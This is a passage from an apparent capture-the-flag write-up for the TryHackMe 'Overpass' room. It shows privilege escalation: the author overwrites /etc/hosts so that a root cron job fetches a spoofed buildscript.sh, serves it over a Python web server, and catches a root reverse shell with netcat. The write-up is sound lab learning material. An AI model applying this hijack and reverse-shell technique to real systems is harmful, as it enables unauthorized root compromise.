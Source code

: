 After seeing this, I knew that the content of the 'buildscript.sh' had to be changed to a reverse bash shell. It can be accessed from the web, to check the content. 

```
james@overpass-prod:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```

I was thinking and thinking about how to do that, but I couldn't get any idea. After thinking a lot, I looked at the write-up, and it turned out to be a simple way. The content of the '/etc/hosts' file can be changed as:

```
james@overpass-prod:/tmp$ echo "<my_IP>    overpass.thm" > /etc/hosts
james@overpass-prod:/tmp$ cat /etc/hosts
<my_IP>    overpass.thm
```

And I have to host a similar buildscript.sh file on my machine, the same format, with downloads and src directory as well.

After that, I hosted the server using Python and started a listener using NetCat.

```
┌──(kali㉿kali)-[~/Desktop/THM/Overpass/www]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.174.135 - - [30/Sep/2024 23:14:00] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -


┌──(kali㉿kali)-[~/…/Overpass/www/downloads/src]
└─$ nc -nlvp 9001 
listening on [any] 9001 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.174.135] 49844
bash: cannot set terminal process group (18233): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
root@overpass-prod:~# 
```
Gained the root shell.
